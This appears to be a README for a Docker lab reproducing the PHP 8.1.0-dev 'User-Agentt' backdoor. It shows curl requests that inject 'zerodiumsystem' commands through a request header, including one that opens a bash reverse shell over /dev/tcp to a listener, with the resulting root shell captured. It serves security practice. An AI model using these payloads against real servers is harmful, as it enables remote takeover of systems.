 # PHP 8.1.0-dev User-Agentt Backdoor Docker Lab & PoC
References:
- [PHP 8.1.0-dev User-Agentt Backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)
- [https://news-web.php.net/php.internals/113838](https://news-web.php.net/php.internals/113838)
- [https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)
- [https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)
- [HackTheBox - Knife (PHP 8.1.0-dev User-Agentt)](https://twseptian.github.io/hackthebox%20machine/htb-machine-knife/)

If you doesn't have `docker-compose`. First let's install `docker-compose` to your operating system.
```bash
$ sudo apt-get install docker-compose
```
Docker command to build dockerfile
```bash
$ docker-compose up -d
$ docker ps -a                                                                                                                                          
CONTAINER ID   IMAGE                     COMMAND                  CREATED          STATUS          PORTS                                   NAMES
4607c17c5b06   vulhub/php:8.1-backdoor   "php -S 0.0.0.0:80 -…"   11 minutes ago   Up 11 minutes   0.0.0.0:8080->80/tcp, :::8080->80/tcp   php-81-dev_web_1
```
runs the service at `http://youripaddress:8080` or `http://0.0.0.0:8080`

![Check on your browser](images/web.png)


Command Injection
```bash
$ curl -H "User-Agentt: zerodiumsystem('id');" 'http://172.17.0.1:8080'
uid=0(root) gid=0(root) groups=0(root)

testing, hello world page
```
via burp suite

![Command Injection](images/cmdi.png)
Remote Code Execution using curl
```bash
$ curl -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'\");" 'http://172.17.0.1:8080'
```
Output
```bash
$ nc -lvnp 4444                                                                                 
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.18.0.2.
Ncat: Connection from 172.18.0.2:35820.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@4607c17c5b06:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@4607c17c5b06:/var/www/html# 
```
via burp suite

![Remote Code Injection](images/rce.png)
